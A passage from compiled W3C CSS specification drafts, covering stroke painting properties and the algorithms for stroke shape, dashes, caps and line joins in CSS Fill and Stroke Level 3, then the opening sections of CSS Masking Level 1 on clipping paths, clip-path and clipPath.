| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

If stroke images have been specified, this property specifies their initial position (after any resizing) within their corresponding stroke positioning area. Values are interpreted identically to `background-position`, mutatis mutandi.

##### 4.4.5. Sizing Stroke Images: the `stroke-size` property {#fill-stroke-3:stroke-size}

| Field | Value |
| --- | --- |
| Name: | **stroke-size** |
| [Value:](#css-values-4:value-defs) | `<bg-size>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, but with lengths made absolute and omitted `auto` keywords filled in |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list |
| Media: | visual |

Specifies the size of the stroke images. Values are interpreted identically to `background-size`, mutatis mutandi.

##### 4.4.6. Tiling Stroke Images: the `stroke-repeat` property {#fill-stroke-3:stroke-repeat}

| Field | Value |
| --- | --- |
| Name: | **stroke-repeat** |
| [Value:](#css-values-4:value-defs) | `<repeat-style>`# |
| [Initial:](#css-cascade-6:initial-values) | repeat |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | A list, each item consisting of: two keywords, one per dimension |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Specifies how stroke fill images are tiled after they have been sized and positioned. Values are interpreted identically to `background-repeat`, mutatis mutandi.

##### 4.4.7. Stroke Shorthand: the `stroke` property {#fill-stroke-3:stroke-shorthand}

| Field | Value |
| --- | --- |
| Name: | **stroke** |
| [Value:](#css-values-4:value-defs) | `<'background'>` with modifications |
| [Initial:](#css-cascade-6:initial-values) | See individual properties |
| [Applies to:](#css-cascade-5:applies-to) | See individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | See individual properties |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | See individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | See individual properties |
| Media: | visual |

This property is a shorthand that sets all of the stroke painting properties—​`stroke-color`, `stroke-image`, `stroke-origin`, `stroke-position`, `stroke-size`, and `stroke-repeat`—​in one declaration. Omitted values are set to their initial value, except that an omitted `stroke-color` is set to `transparent`, and an omitted `stroke-origin` is set to `stroke-box`.

#### 4.5. Stroke Transparency {#fill-stroke-3:stroke-filter}

##### 4.5.1. Stroke Opacity: the `stroke-opacity` property {#fill-stroke-3:stroke-opacity}

| Field | Value |
| --- | --- |
| Name: | **stroke-opacity** |
| [Value:](#css-values-4:value-defs) | `<'opacity'>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | text and SVG shapes |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the specified value converted to a `<number>`, clamped to the range [0,1] |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The `stroke-opacity` property specifies the opacity of the painting operation used to stroke the current object. As with `opacity`, a value of `0` or `0%` means fully transparent, and a value of `1` or `100%` means fully opaque.

#### 4.6. Computing the Shape of the Stroke {#fill-stroke-3:path-notes}

##### 4.6.1. Stroke Paths {#fill-stroke-3:stroke-paths}

In all cases, all stroking properties which are affected by directionality, such as those having to do with dash patterns, must be rendered such that the stroke operation starts at the same point at which the graphics element starts. In particular, for `path` elements, the start of the path is the first point of the initial “moveto” command.

For stroking properties such as dash patterns whose computations are dependent on progress along the outline of the graphics element, distance calculations are required to utilize the SVG user agent’s standard [Distance along a path algorithms](https://svgwg.org/svg2-draft/paths.html#DistanceAlongAPath).

When stroking is performed using a complex paint server, such as a gradient or a `pattern`, the stroke operation must be identical to the result that would have occurred if the geometric shape defined by the geometry of the current graphics element and its associated stroking properties were converted to an equivalent `path` element and then filled using the given paint server.

A subpath consisting of a single “moveto” shall not be stroked. Any zero length subpath shall not be stroked if the `stroke-linecap` property has a value of `butt` but shall be stroked if the `stroke-linecap` property has a value of `round` or `square`, producing respectively a circle or a square centered at the given point. Examples of zero-length subpaths include `'M 10,10 L 10,10'`, `'M 20,20 h 0'`, `'M 30,30 z'`, and `'M 40,40 c 0,0 0,0 0,0'`.

> **Issue:** This should be redundant with the stroke shape computation requirements below. In this section, we should phrase the requirements descriptively rather than normatively.

##### 4.6.2. Stroke Shape {#fill-stroke-3:algo-stroke-shape}

The **stroke shape** of an element is the shape that is filled by the `stroke` property. The following algorithm describes what the stroke shape of text, a `path`, or basic shape is, taking into account the stroking properties above:

1. Let *shape* be an empty shape.
2. Let *path* be the equivalent path of the element.
3. For each *subpath* of *path*:

  1. Let *positions* be the dash positions for the *subpath*.
  2. For each pair (*start*, *end*) in *positions*:

    1. Let *dash* be the shape that includes, for all distances between *start* and *end* along the *subpath*, all points that lie on the line perpendicular to the *subpath* at that distance and which are within distance stroke-width of the point on the *subpath* at that position.
    2. Set *dash* to be the union of *dash* and the starting cap shape for the subpath at position *start*.
    3. Set *dash* to be the union of *dash* and the ending cap shape for the subpath at position *end*.
    4. Let *index* and *last* be the indexes of the path segments in the subpath at distance start and end along the subpath.

       > **Note:** It does not matter whether any zero length segments are included when choosing index and last.
    5. While *index* < *last*:

      1. Set *dash* to be the union of *dash* and the line join shape for the subpath at segment index *index*.
      2. Set *index* to index + 1.
    6. Set *shape* to be the union of *shape* and *dash*.
4. Return *shape*.

##### 4.6.3. Dash Positions {#fill-stroke-3:algo-dash-positions}

> **Issue:** This section doesn’t handle `stroke-dash-corner` and `stroke-dash-justify` yet.

The **dash positions** for a given subpath of the equivalent path of a `path` or basic shape is a sequence of pairs of values, which represent the starting and ending distance along the subpath for each of the dashes that form the subpath’s stroke. It is determined as follows:

1. Let *pathlength* be the length of the subpath.
2. Let *dashes* be the list of values of `stroke-dasharray` on the element, repeated if necessary so that it has an even number of elements; if the property has the value none, then the list has a single value `0`.
3. Let *count* be the number of values in *dashes*.
4. Let *sum* be the sum of the values in *dashes*.
5. If *sum* = 0, then return a sequence with the single pair (0, *pathlength*).
6. Let *positions* be an empty sequence.
7. Let *offset* be the value of the `stroke-dashoffset` property on the element.
8. If *offset* is negative, then set *offset* to `sum − abs(offset)`.
9. Set *offset* to `offset mod sum`.
10. Let *index* be the smallest integer such that `sum(dashesi, 0 ≤ i ≤ index) ≥ offset`.
11. Let *dashlength* be `min(sum(dashesi, 0 ≤ i ≤ index) − offset, pathlength)`.
12. If `index mod 2 = 0`, then append to *positions* the pair (0, *dashlength*).
13. Let *position* be *dashlength*.
14. While *position* < *pathlength*:

  1. Set *index* to `(index + 1) mod count`.
  2. Let *dashlength* be `min(dashesindex, pathlength − position)`.
  3. If *index* mod 2 = 0, then append to *positions* the pair (*position*, *position* + *dashlength*).
  4. Set *position* to `position + dashlength`.
15. Return *positions*.

##### 4.6.4. Cap Shapes {#fill-stroke-3:algo-cap-shapes}

The starting and ending **cap shapes** at a given *position* along a subpath are determined as follows:

1. If `stroke-linecap` is `butt`, then return an empty shape.
2. Otherwise, if `stroke-linecap` is `round`, then:

  1. If this is a starting cap, then return a semicircle of radius `stroke-width` positioned such that:

    - Its straight edge is parallel to the line perpendicular to the subpath at distance *position* along it.
    - The midpoint of its straight edge is at the point that is along the subpath at distance *position*.
    - The direction from the midpoint of its arc to the midpoint of its straight edge is the same as the direction of the subpath at distance *position* along it.
  2. Otherwise, this is an ending cap. Return a semicircle of radius stroke-width positioned such that:

    - Its straight edge is parallel to the line perpendicular to the subpath at distance *position* along it.
    - The midpoint of its straight edge is at the point that is along the subpath at distance *position*.
    - The direction from the midpoint of its straight edge to the midpoint of its arc is the same as the direction of the subpath at distance *position* along it.
3. Otherwise, `stroke-linecap` is `square`:

  1. If this is a starting cap, then return a rectangle with side lengths `stroke-width` and `stroke-width` / 2 positioned such that:

    - Its longer edges, A and B, are parallel to the line perpendicular to the subpath at distance *position* along it.
    - The midpoint of A is at *start*.
    - The direction from the midpoint of B to the midpoint of A is the same as the direction of the subpath at distance *position* along it.
  2. Otherwise, this is an ending cap. Return a rectangle with side lengths `stroke-width` and `stroke-width` / 2 positioned such that:

    - Its longer edges, A and B, are parallel to the line perpendicular to the subpath at distance *position* along it.
    - The midpoint of A is at *end*.
    - The direction from the midpoint of A to the midpoint of B is the same as the direction of the subpath at distance *position* along it.


The three different stroke-linecap values used on paths with a single, non-zero length subpath. The white line is the path itself and the thick gray area is the stroke.

On the top row, the green lines indicate the perpendicular to the tangent at the path endpoints and the pink areas are the caps. The bottom row shows the stroke without the perpendicular and cap highlighting.

##### 4.6.5. Line Join Shape {#fill-stroke-3:algo-line-join-shape}

The **line join shape** for a given segment of a subpath is determined as follows:

1. Let *P* be the point at the end of the segment.
2. Let *A* be the line parallel to the tangent at the end of the segment.
3. Let *B* be the line parallel to the tangent at the start of the following segment.
4. If *A* and *B* are the same line, then return an empty shape.
5. Let |Aleft| and |Aright| be lines parallel to *A* at a distance of `stroke-width` / 2 to the left and to the right of *A* relative to the subpath direction, respectively.
6. Let |Bleft| and |Bright| be lines parallel to *B* at a distance of `stroke-width` / 2 to the left and to the right of *B* relative to the subpath direction, respectively.
7. Let |P1|, |P2| and |P3| be points determined as follows:

  1. If the smaller angle between *A* and *B* is on the right of these lines, considering the direction of the subpath, then |P1| and |P2| are the points on |Aleft| and |Bleft| closest to *P*, and |P3| is the intersection of |Aleft| and |Bleft|.
  2. Otherwise, |P1| and |P2| are the points on |Aright| and |Bright| closest to *P*, and |P3| is the intersection of |Aright| and |Bright|.
8. Let *bevel* be the triangle formed from the three points *P*, |P1| and |P2|.
9. If `stroke-linejoin` is `round`, then return the union of *bevel* and a circular sector of radius `stroke-width`, centered on *P*, and which has |P1| and |P2| as the two endpoints of the arc.
10. If `stroke-linejoin` is `arcs`, then find the circles that are tangent to the stroke edges at |P1| and |P2| with the same curvature as the edges at those points (see below). If both curvatures are zero, fall through to `miter-clip`.

   Extend the stroke edges using these circles (or a line, in the case of zero curvature):

  - If the two circles (or circle and line) do not intersect, fall through to `miter-clip`.
  - If the two circles (or circle and line) intersect, the line join region is defined by the lines that connect *P* with |P1| and |P2| and the arcs defined by the circles (or arc and line) between the closest intersection point to *P*, and |P1| and |P2|.

    Next, calculate the *miter limit* as defined in [§ 4.2.5 Stroke Corner Limits: the stroke-miterlimit property](#fill-stroke-3:stroke-miterlimit). Clip any part of the line join region that extends past the *miter limit*. Return the resulting region.

    > **Note:** Note that the curvatures are calculated in user-space before any transforms are applied.
11. If `stroke-linejoin` is `miter` or `miter-clip` then the line join region is the union of *bevel* and the triangle formed from the three points |P1|, |P2| and |P3|.
12. Let θ be the angle between A and B. If `1 / sin(θ / 2) ≤ stroke-miterlimit`, then return the line join region.
13. If `stroke-linejoin` is `miter-clip`, then clip any part of the line join region that extends past the miter limit and return this region.
14. Return bevel.


Construction of a round line join shape, shown in pink. The white line is the original path, which has two segments that come to a point, and the gray region is the stroke.


Construction of an arcs line join shape, shown in pink. The white line is the original path, which has two segments that come to a point, and the gray region is the stroke. The dashed lines show circles that are tangent to and have the curvature of the segments at the join. The olive-green circles (concentric with the dashed circles) define the join shape.

##### 4.6.6. Arcs Linejoin {#fill-stroke-3:algo-arcs-linejoin}

The **arcs linejoin** requires finding circles that are both tangent to and have the same curvatures as the outer stroke edges at the ends of path segments. To find one of these circles, first calculate the curvature κ of the path segment at its end (see below). Next, find the radius of a circle corresponding to this curvature: r = 1/κ. Increase or decrease the radius by `stroke-width` / 2 to account for the stroke: rc = r ± stroke-width/2. The center of the circle will be on a line normal to the path end a distance of rc away from the outer stroke edge at the end.

**For a line:**

: The curvature is infinite. Extend the outer stroke edge by a line.

**For an elliptical arc:**

: κ(t)=rxry(r2xsin2t+r2ycos2t)3/2

  where:

  t=arctan(ryrxtanθ)

  The parameter θ at the beginning or end of an arc segment can be found by using the formulas in the [Elliptical arc implementation notes](https://svgwg.org/svg2-draft/implnote.html#ArcImplementationNotes). (Note, some renderers convert elliptical arcs to cubic Béziers prior to rendering so the equations here may not be needed.)

**For a quadratic Bézier:**

: κ(0)=12(P1−P0)×(P2−P1)|P1−P0|3

  κ(1)=12(P2−P1)×(P0−P1)|P2−P1|3

  Where κ(0) and κ(1) are the signed curvatures at the start and end of the path segment respectively, and the P’s are the three points that define the quadratic Bézier.

**For a cubic Bézier:**

: κ(0)=23(P1−P0)×(P2−P1)|P1−P0|3

  κ(1)=23(P3−P2)×(P1−P2)|P3−P2|3

  Where κ(0) and κ(1) are the signed curvatures at the start and end of the path segment respectively, and the P’s are the four points that define the cubic Bézier. Note, if P0 and P1, or P2 and P3, are degenerate, the curvature will be infinite and a line should be used in constructing the join.

#### 4.7. Perfect-World Syntax {#fill-stroke-3:perfect-world}

The `stroke-*` properties and values from SVG inherit SVG’s somewhat incoherent naming schemes. We’d name them differently if they were being designed today. We should see how much we can move toward this, perhaps with alias/shorthands.

| Old Syntax | New Syntax |
| --- | --- |
| stroke | stroke-paint |
|  | `stroke` shorthand |
| stroke-alignment | stroke-align: inset \| outset \| center |
| stroke-opacity | no change |
| stroke-width | no change |
| stroke-linecap | stroke-cap: none \| round \| square |
| stroke-linejoin | stroke-corner-shape: bevel \| round \| [ arc \| miter ] [ bevel \| round ]? |
| stroke-miterlimit | stroke-corner-limit |
| stroke-dasharray | stroke-dash-array |
| stroke-dashoffset | stroke-dash-offset |
| stroke-dashcorner | stroke-dash-corner |
| stroke-dashadjust | stroke-dash-justify: none \| [ stretch \| compress ] \|\| [ dashes \| gaps ] |
|  | stroke-dash shorthand |

### 5. Text Decoration Fills and Strokes {#fill-stroke-3:text-decor}

For handling fills and strokes on text decorations, two sets of `fill` and `stroke` properties are defined: one prefixed with `text-decoration-*` for [line decorations](#css-text-decor-4:line-decoration) and one prefixed with `text-emphasis-*` for [emphasis marks](#css-text-decor-4:emphasis-marks). These properties are exactly analogous to the `fill` and `stroke` properties above, except that:

- (like `text-decoration` itself) the `text-decoration-*` variants do not inherit.
- the initial value of each such property is a `match-text` keyword which takes the value from the element’s corresponding `fill-*`/`stroke-*` property.

> **Issue:** These should definitely be at-risk, possibly deferred to the next level.

---

## CSS Masking Module Level 1 {#css-masking-1}

- **Shortname:** `css-masking-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-masking-1/](https://drafts.csswg.org/css-masking-1/)
- **Published TR:** [https://www.w3.org/TR/css-masking-1/](https://www.w3.org/TR/css-masking-1/)
- **W3C Status:** ED (refining)
- **Last Edited:** 2026-08-18

### 1. Introduction {#css-masking-1:intro}

*This section is not normative.*

This specification defines two different graphical operations which both fully or partly hide portions of an object: clipping and masking.

#### 1.1. Clipping {#css-masking-1:clipping}

A closed vector path, shape or polygon defines a so called **clipping path**. This clipping path is a region (in the absence of anti-aliasing) where everything on the “inside” of this region is allowed to show through but everything on the outside is “clipped out” and does not appear on the canvas.

> **Example:** 
>
> A clipping path (middle) is applied on a polygon shaded with different colors (left). This results in a “clipped out” shape (right).

The `clip-path` property can use specified basic shapes as clipping path or reference an clipPath element with graphics elements to be used as clipping path.

Clipping *does* affect hit testing; there are no hits outside the clip region, only inside.

#### 1.2. Masking {#css-masking-1:masking}

The effect of applying a mask to a graphical object is as if the graphical object will be painted onto the background through a mask, thus completely or partially masking out parts of the graphical object.

> **Example:** 
>
> A luminance mask (middle) is applied on a shape filled with a gradient (left). This results in a masked shape (right).

Masks are applied using the `mask-image` or `mask-border-source` properties.

The `mask-image` property may reference a mask element. The content of the mask element serves as the mask.

Alternatively, for many simple uses, the `mask-image` property may refer directly to images to be used as mask, forgoing the need for an explicit mask element. This mask can then be sized and positioned just like CSS background images using the `mask-position`, `mask-size` and other characterizing properties.

The `mask-border-source` property splits a mask into 9 pieces. The pieces may be sliced, scaled and stretched in various ways to fit the size of the mask border image area. The `mask-border` property serves as a shorthand property for `mask-border-source` and other characterizing properties.

The `mask` property serves as a shorthand property for all `mask-border` and `mask-image` affiliated properties.

> **Note:** While masking gives many possibilities for enhanced graphical effects and in general provides more control over the “visible portions” of the content, clipping paths can perform better and basic shapes are easier to interpolate.

Masking *does not* affect hit testing.

### 2. Module interactions {#css-masking-1:placement}

This specification defines a set of CSS properties that affect the visual rendering of elements to which those properties are applied. These effects are applied after elements have been sized and positioned according to the [Visual formatting model](#css2) from [CSS21]. Some values of these properties result in the creation of a stacking context. Furthermore, this specification replaces the section [Clipping: the clip property](#css2:clipping) from [CSS21].

The compositing model follows the SVG compositing model [SVG11]: First the element is styled under absence of filter effects, masking, clipping and opacity. Then the element and its descendants are drawn on a temporary canvas. In a last step the following effects are applied to the element in order: filter effects [FILTER-EFFECTS], clipping, masking and opacity.

This specification allows compositing multiple mask layers with the Porter Duff compositing operators defined in CSS Compositing and Blending [COMPOSITING-1].

The term object bounding box follows the definition in SVG 1.1 [SVG11].

### 3. Values {#css-masking-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21]. Basic shapes are defined in CSS Shapes Module Level 1 [CSS-SHAPES]. Value types not defined in these specifications are defined in CSS Values and Units Module Level 3 [CSS3VAL].

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept CSS-wide keywords such as [inherit](#css2:value-def-inherit) as their property value [CSS3VAL]. For readability it has not been repeated explicitly.

### 4. Terminology {#css-masking-1:terminology}

Definitions of CSS properties and values in this specification are analogous to definitions in CSS Backgrounds and Borders [CSS3BG]. To avoid redundancy, this specification relies on descriptions and definitions of CSS Backgrounds and Borders. The following terms in CSS Backgrounds and Borders have the following meaning in this specification:

| Term in CSS Masking | Term in [CSS3BG] |
| --- | --- |
| mask layer image | background images |
| mask painting area | background painting area |
| **mask-size** | background-size |
| **mask-position** | background-position |
| mask positioning area | background positioning area |
| mask border image | border-image |
| mask border image area | border image area |

### 5. Clipping Paths {#css-masking-1:clipping-paths}

The clipping path restricts the region to which paint can be applied, the so-called **clipping region**. Conceptually, any parts of the drawing that lie outside of this region are not drawn. This includes any content, background, borders, text decoration, outline and visible scrolling mechanism of the element to which the clipping path is applied, and those of its descendants.

An element’s ancestors may also clip portions of their content (e.g., via their own `clip` or `clip-path` properties and/or if their `overflow` property is not `visible`). What is rendered is the cumulative intersection.

If the clipping region exceeds the bounds of the UA’s document window, content may be clipped to that window by the native operating environment.

A clipping path affects the rendering of an element. It does not affect the element’s inherent geometry. The geometry of a clipped element (i.e. an element which references a clipPath element via a `clip-path` property, or a child of the referencing element) must remain the same as if it were not clipped.

> **Example:** Consider a shape that is clipped by a clipping path applied to an ancestor:
>
> ```
> <g clip-path="circle()">
>   <path id="shape" d="M0,0 L10,10, L 20,0 z"/>
> </g>
> ```
>
> The shape is referenced by a use element:
>
> ```
> <use xlink:href="#shape"/>
> ```
>
> The geometry of the shape is not influenced by the circular clipping path.

By default, `pointer-events` must not be dispatched on the clipped-out (non-visible) regions of a shape. For example, an element with a dimension of 10px to 10px which is clipped to a circle with a radius of 5px will not receive `click` events outside the clipping region.

#### 5.1. Clipping Shape: the `clip-path` property {#css-masking-1:the-clip-path}

| Field | Value |
| --- | --- |
| Name: | **clip-path** |
| [Value:](#css-values-4:value-defs) | `<clip-source>` \| [ `<basic-shape>` \|\| `<geometry-box>` ] \| none |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | All elements. In SVG, it applies to container elements excluding the defs element, all graphics elements and the use element |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified, but with `<url>` values made absolute |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

Specifies a basic shape or references a clipPath element to create a clipping path.

```css
<clip-source> = <url>
```

```css
<geometry-box> = <shape-box> | fill-box | stroke-box | view-box
```

**`<basic-shape>`**

: A basic shape function as defined in the CSS Shapes module [CSS-SHAPES]. A basic shape makes use of the specified reference box to size and position the basic shape. If no reference box is specified, the `border-box` will be used as reference box.

**`<geometry-box>`**

: If specified in combination with a `<basic-shape>` it provides the reference box for the <basic-shape>.

  If specified by itself, uses the edges of the specified box, including any corner shaping (e.g. defined by `border-radius` [CSS3BG]), as clipping path. See also [“Shapes from box values”](#css-shapes-2:shapes-from-box-values) [CSS-SHAPES].

****fill-box****

: Uses the object bounding box as reference box.

****stroke-box****

: Uses the stroke bounding box as reference box.

****view-box****

: Uses the nearest [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) as reference box.

  If a viewBox attribute is specified for the [SVG viewport](https://www.w3.org/TR/SVG11/intro.html#TermSVGViewport) creating element:

  - The reference box is positioned at the origin of the coordinate system established by the viewBox attribute.
  - The dimension of the reference box is set to the *width* and *height* values of the viewBox attribute.

**none**

: No clipping path gets created.

For SVG elements without associated CSS layout box, the used value for `content-box` and `padding-box` is `fill-box` and for `border-box` and `margin-box` is `stroke-box`.

For elements with associated CSS layout box, the used value for `fill-box` is `content-box` and for `stroke-box` and `view-box` is `border-box`.

For fragmented CSS layout boxes (e.g. inline boxes spanning several lines or boxes spanning several pages or columns), `box-decoration-break` controls whether the reference box is determined for each fragment individually or is sliced together with the box’s decorations.

A computed value of other than `none` results in the creation of a stacking context [CSS21] the same way that CSS `opacity` [CSS3COLOR] does for values other than `1`.

If the URI reference is not valid (e.g it points to an object that doesn’t exist or the object is not a clipPath element), no clipping is applied.

> **Example:** This example demonstrates the use of the basic shape `<polygon()>` as clipping path. Each space separated length pair represents one point of the polygon. The visualized clipping path can be seen in the [introduction](#css-masking-1:clipping).
>
> ```
> clip-path: polygon(15px 99px, 30px 87px, 65px 99px, 85px 55px,
>         122px 57px, 184px 73px, 198px 105px, 199px 150px,
>         145px 159px, 155px 139px, 126px 120px, 112px 138px,
>         80px 128px, 39px 126px, 24px 104px);
> ```

> **Example:** In this example, the `clip-path` property references an SVG clipPath element. Each comma separated length pair represents one point of the polygon. As for the previous example, the visualized clipping path can be seen in the [introduction](#css-masking-1:clipping).
>
> ```
> clip-path: url("#clip1");
> ```
>
> ```
> <clipPath id="clip1">
>     <polygon points="15,99 30,87 65,99 85,55 122,57 184,73 198,105
>         199,150 145,159 155,139 126,120 112,138 80,128 39,126 24,104"/>
> </clipPath>
> ```

The `clip-path` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

### 6. SVG Clipping Path Sources {#css-masking-1:svg-clipping-paths}

#### 6.1. The clipPath element {#css-masking-1:ClipPathElement}

| Name: | **`clipPath`** |
| --- | --- |
| Categories: | container elements, never-rendered element |
| Content model: | Any number of the following elements, in any order: [descriptive](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermDescriptiveElement) — desc, title, metadata [animation](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermAnimationElement) — animate, animateMotion, animateTransform, set [shape](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermShapeElement) — circle, ellipse, line, path, polygon, polyline, rect text use script |
| Attributes: | [conditional processing attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermConditionalProcessingAttribute) — [‘requiredFeatures’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#RequiredFeaturesAttribute), [‘requiredExtensions’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#RequiredExtensionsAttribute), [‘systemLanguage’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#SystemLanguageAttribute) [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [‘id’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [‘xml:base’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [‘xml:lang’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [‘xml:space’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, `color-profile`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-horizontal`, `glyph-orientation-vertical`, `image-rendering`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` [‘class’](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [‘style’](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) [‘externalResourcesRequired’](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#ExternalResourcesRequiredAttribute) [‘transform’](https://www.w3.org/TR/2011/REC-SVG11-20110816/coords.html#TransformAttribute) ‘clipPathUnits’ |
| DOM Interfaces: | [SVGClipPathElement](#css-masking-1:InterfaceSVGClipPathElement) |

*Attribute definitions:*

****`clipPathUnits`** = "`userSpaceOnUse` | `objectBoundingBox`"**

: Defines the coordinate system for the contents of the clipPath.

  ****userSpaceOnUse****

  : The contents of the clipPath represent values in the current user coordinate system in place at the time when the clipPath element is referenced (i.e., the user coordinate system for the element referencing the clipPath element via the `clip-path` property).

  ****objectBoundingBox****

  : The coordinate system has its origin at the top left corner of the bounding box of the element to which the clipping path applies to and the same width and height of this bounding box. [User coordinates](https://www.w3.org/TR/SVG/coords.html#Units) are sized equivalently to the CSS `px` unit.

  If attribute clipPathUnits is not specified, then the effect is as if a value of `userSpaceOnUse` were specified.

  Animatable: yes.

CSS properties inherit into the clipPath element from its ancestors; properties do *not* inherit from the element referencing the clipPath element.

clipPath elements are never rendered directly; their only usage is as something that can be referenced using the `clip-path` property. The `display` property does not apply to the clipPath element; thus, clipPath elements are not directly rendered even if the `display` property is set to a value other than `none`, and clipPath elements are available for referencing even when the `display` property on the clipPath element or any of its ancestors is set to `none`.

A clipPath element can contain path elements, text elements, basic shapes (such as circle) or a use element. If a use element is a child of a clipPath element, it must directly reference path, text or basic shapes elements. Indirect references are an error and the clipPath element must be ignored.

> **Issue:** Firefox disables rendering of elements referencing clipPaths with violated content model. No browser ignores clipPath on use with indirect reference. [[Issue #17]](https://github.com/w3c/csswg-drafts/issues/17)

The raw geometry of each child element exclusive of rendering properties such as `fill`, `stroke`, `stroke-width` within a clipPath conceptually defines a 1-bit mask (with the possible exception of anti-aliasing along the edge of the geometry) which represents the silhouette of the graphics associated with that element. Anything outside the outline of the object is masked out. If a child element is made invisible by `display` or `visibility` it does not contribute to the clipping path. When the clipPath element contains multiple child elements, the silhouettes of the child elements are logically OR’d together to create a single silhouette which is then used to restrict the region onto which paint can be applied. Thus, a point is inside the clipping path if it is inside any of the children of the clipPath.

> **Issue:** Define raw geometry with regards to CSS properties that affect it. Especially on text. [[Issue #170]](https://github.com/w3c/csswg-drafts/issues/170)

For a given graphics element, the actual clipping path used will be the intersection of the clipping path specified by its `clip-path` property (if any) with any clipping paths on its ancestors, as specified by the `clip-path` property on the elements which establish a new viewport. (See [SVG11])

A couple of additions:

- The clipPath element itself and its child elements do *not* inherit clipping paths from the ancestors of the clipPath element.
- The clipPath element or any of its children can specify property `clip-path`.  If a valid `clip-path` reference is placed on a clipPath element, the resulting clipping path is the intersection of the contents of the clipPath element with the referenced clipping path.  If a valid `clip-path` reference is placed on one of the children of a clipPath element, then the given child element is clipped by the referenced clipping path before OR’ing the silhouette of the child element with the silhouettes of the other child elements.
- An empty clipping path will completely clip away the element that had the `clip-path` property applied.

#### 6.2. Winding Rules: the `clip-rule` property {#css-masking-1:the-clip-rule}

| Field | Value |
| --- | --- |
| Name: | **clip-rule** |
| [Value:](#css-values-4:value-defs) | nonzero \| evenodd |
| [Initial:](#css-cascade-6:initial-values) | nonzero |
| [Applies to:](#css-cascade-5:applies-to) | Applies to SVG graphics elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

The `clip-rule` property indicates the algorithm which is to be used to determine whether a given point is inside a shape for a clipping region created with a graphics element. The definition of the algorithms and the `clip-rule` values follows the definition of the `fill-rule` property. See section [“Fill Properties”](https://www.w3.org/TR/2011/REC-SVG11-20110816/painting.html#FillProperties) in SVG 1.1 [SVG11].

****nonzero****

: See description of `fill-rule` property [SVG11].

****evenodd****

: See description of `fill-rule` property [SVG11].

The `clip-rule` property only applies to graphics elements that are contained within a clipPath element.

